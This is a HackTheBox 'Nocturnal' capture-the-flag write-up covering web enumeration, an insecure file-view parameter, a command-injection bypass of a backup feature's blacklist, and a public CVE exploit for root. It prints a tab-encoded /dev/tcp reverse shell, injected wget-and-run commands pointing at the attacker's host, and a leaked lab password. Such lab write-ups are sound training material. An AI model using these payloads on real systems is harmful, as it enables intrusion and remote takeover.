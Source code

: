 #  HackTheBox: Nocturnal - Writeup
This easy-difficulty box involves enumerating a web server to discover file upload functionality, which is leveraged to access user files and extract credentials. A backup sanitization bypass leads to remote code execution and shell access. After pivoting to the user tobias via SQLite hash cracking, SSH tunneling exposes a vulnerable internal web panel. Exploiting CVE-2023-46818 grants root access. The box combines web fuzzing, input encoding, credential reuse, and real-world CVE exploitation.


We start with a nmap scan, which gives us two opens ports;
Port 22 (SSH)
Port 80 (nginx web server)

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image1.png)
 
Using gobuster, we’re able to enumerate the directories present in the web server. Upon which we’re given; 
/view.php
/admin.php
/backups
 
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image2.png)

An account is then created, to look for what services the website offers.
After logging in, we can upload a file which could lead to a potential reverse-shell, however sanitisation is put in place so that is not the correct route.
Upon uploading the potential ‘reverse-shell’ file we are able to view it, and it uses the parameters; username and file. We could access the administrator account from here.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image3.png)
 
Changing the user to admin for testing, it works just not the account.
 
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image4.png)

Burp Intruder can be used to look for potential usernames that we can access, we supply it with the payload and begin the attack.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image5.png)
 
The results of the attack show us, that Amanda is a user with a file present in it, seen by the higher then usual length of response.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image6.png)

Going to amanda’s account we see the file ‘privacy.odt’ which contains some information about amanda and her credentials.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image7.png)
 
Nocturnal has set the following temporary password for you: arHkG7HAI68X8s1J. This password has been set for all our services, so it is essential that you change it on your first login to ensure the security of your account and our infrastructure.
The file has been created and provided by Nocturnal's IT team. If you have any questions or need additional assistance during the password change process, please do not hesitate to contact us.
Remember that maintaining the security of your credentials is paramount to protecting your information and that of the company. We appreciate your prompt attention to this matter.
                                                                                                                                                                                    
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image8.png)
 
Getting the backup, we obtain the files out of which on of them contain a cleanEntry function, used to sanitise the password set for the backup file. Some of the characters such as; ;, &, | , etc. aren’t allowed. From here we can form a reverse-shell, that doesn’t use the blacklisted characters through encoding.
 
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image8.png)

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image9.png)

We then form a reverse-shell payload that bypasses the input sanitization, but it doesn’t work as intended, meaning that we must try another way to construct the payload.
bash%09-i%09%3E/dev/tcp/10.10.14.219/443%09%3C/dev/tcp/10.10.14.219/443
 
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image10.png)

The payload is inserted into script.sh and downloaded onto the web server. 
%0abash%09-c%09"wget%09http://10.10.14.219:8000/script.sh"&backup=

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image11.png)
 
Which gives a successful response.
%0abash%09-c%09”bash%09script.sh”&backup=

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image12.png)
 
Now, the payload stored in the web server is run to gain a reverse-shell, setting up a listener on my machine.
 
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image13.png)

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image14.png)

Using the shell, I’m able to obtain the hash for user ‘tobias’, in the nocturnal_database.db.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image15.png)
 
Upon cracking the password, I can SSH into tobias, gaining the user flag.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image18.png)
 
Further enumeration reveals a http web server being hosted, using SSH Tunnelling I’m able to host the web server on my machine.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image19.png)
 
Upon logging in as admin, with same credentials as tobias we see this version of the ISP is vulnerable to RCE.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image20.png)
 
Git clone https://github.com/ajdumanhug/CVE-2023-46818
Running the exploit, we’re able to obtain the root shell, and obtain the root flag.
 
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image21.png)

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Nocturnal/Screenshots/image23.png)
 
